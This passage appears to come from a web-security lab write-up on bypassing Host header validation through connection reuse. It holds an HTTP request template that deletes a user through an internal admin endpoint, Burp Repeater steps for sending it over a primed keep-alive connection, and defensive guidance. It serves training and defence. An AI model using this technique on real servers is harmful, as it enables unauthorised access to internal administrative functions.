 Delete request template (second request on the same connection)
```
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab={LAB_COOKIE}; session={SESSION}
Content-Type: application/x-www-form-urlencoded
Content-Length: {LEN}

csrf={TOKEN}&username=carlos
```

Notes and pitfalls
- The order matters: prime with a valid `Host` first, then target the internal host on the same connection.
- Use Burp Repeater’s “Send group in sequence (single connection)” and do not change connection settings between sends.
- Ensure `Content-Length` is exact; mismatches will break connection reuse. Avoid proxies that coalesce or split connections.
- If the first request contains `Connection: close`, the server will not reuse the connection; use `keep-alive`.

Defensive guidance
- Validate `Host` and routing per-request, not per-connection. Do not cache trust decisions on connection state.
- Disable or strictly manage keep-alive between untrusted clients and frontends if validation cannot be enforced uniformly.
- Terminate untrusted connections at a gateway that normalizes and revalidates every request.
